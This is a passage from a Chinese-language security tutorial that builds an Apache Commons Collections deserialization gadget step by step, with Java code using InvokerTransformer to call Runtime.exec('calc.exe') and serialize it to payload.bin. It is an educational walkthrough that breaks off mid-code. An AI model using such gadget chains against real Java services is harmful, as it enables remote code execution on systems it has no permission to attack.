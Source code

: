 需要满足以下条件

```java
this.iMethodName=“exec”
this.iParamTypes=String.class
input=Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))
this.iArgs="calc.exe"
```

尝试尝试构造执行命令

```java
import org.apache.commons.collections.functors.InvokerTransformer;

public class Commons_collections_Test {
    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc.exe"});
        invokerTransformer.transform(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")));

    }
}

```

[![RDxwUH.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-72c5aabe4db502df4edc9b3bae71fc5cc1322db0.png)](https://imgtu.com/i/RDxwUH)

可以成功执行，但是还存在一个问题就是无法传入`Runtime`的实例对象。

两种获取Runtime实例的错误思路
------------------

用readObject模拟反序列化

序列化

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {

        //构造InvokerTransformer
        InvokerTransformer a=new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc.exe"});

        //序列化
        FileOutputStream f=new FileOutputStream("payload.bin");
        ObjectOutputStream fout=new ObjectOutputStream(f);
        fout.writeObject(a);

        //构造传入transform的参数，Runtime实例
        Object input=Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));

        //反序列化
        FileInputStream fi=new FileInputStream("payload.bin");
        ObjectInputStream fin=new ObjectInputStream(fi);
        InvokerTransformer b=(InvokerTransformer) fin.readObject();

```